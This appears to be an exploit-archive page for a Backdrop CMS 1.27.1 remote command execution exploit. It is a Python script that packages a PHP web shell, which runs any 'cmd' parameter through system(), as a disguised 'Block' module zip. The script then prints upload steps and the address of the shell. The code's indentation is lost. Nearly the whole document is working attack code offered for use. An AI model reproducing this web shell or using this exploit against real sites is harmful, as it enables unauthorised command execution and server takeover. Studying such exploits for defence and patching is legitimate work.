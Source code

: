 ```yaml
---
layout: post
title: Backdrop CMS 1.27.1 - Remote Command Execution
date: 2024-05-25
category: exploit
---
```



# Exploit Title: Backdrop CMS 1.27.1 - Remote Command Execution (RCE)
# Date: 04/27/2024
# Exploit Author: Ahmet Ümit BAYRAM
# Vendor Homepage: https://backdropcms.org/
# Software Link: https://github.com/backdrop/backdrop/releases/download/1.27.1/backdrop.zip
# Version: latest
# Tested on: MacOS

import os
import time
import zipfile



def create_files():
info_content = """
type = module
name = Block
description = Controls the visual building blocks a page is constructed
with. Blocks are boxes of content rendered into an area, or region, of a
web page.
package = Layouts
tags[] = Blocks
tags[] = Site Architecture
version = BACKDROP_VERSION
backdrop = 1.x

configure = admin/structure/block

; Added by Backdrop CMS packaging script on 2024-03-07
project = backdrop
version = 1.27.1
timestamp = 1709862662
"""
shell_info_path = "shell/shell.info"
os.makedirs(os.path.dirname(shell_info_path), exist_ok=True) # Klasörü
oluşturur
with open(shell_info_path, "w") as file:
file.write(info_content)

shell_content = """
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
if(isset($_GET['cmd']))
{
system($_GET['cmd']);
}
?>
</pre>
</body>
</html>
"""
shell_php_path = "shell/shell.php"
with open(shell_php_path, "w") as file:
file.write(shell_content)

return shell_info_path, shell_php_path

def create_zip(info_path, php_path):
zip_filename = "shell.zip"
with zipfile.ZipFile(zip_filename, 'w') as zipf:
# Dosyaları shell klasörü altında sakla
zipf.write(info_path, arcname='shell/shell.info')
zipf.write(php_path, arcname='shell/shell.php')
return zip_filename

def main(url):
print("Backdrop CMS 1.27.1 - Remote Command Execution Exploit")
time.sleep(3)

print("Evil module generating...")
time.sleep(2)

info_path, php_path = create_files()
zip_filename = create_zip(info_path, php_path)

print("Evil module generated!", zip_filename)
time.sleep(2)

print("Go to " + url + "/admin/modules/install and upload the " +
zip_filename + " for Manual Installation.")
time.sleep(2)

print("Your shell address:", url + "/modules/shell/shell.php")

if __name__ == "__main__":
import sys
if len(sys.argv) < 2:
print("Usage: python script.py [url]")
else:
main(sys.argv[1])
            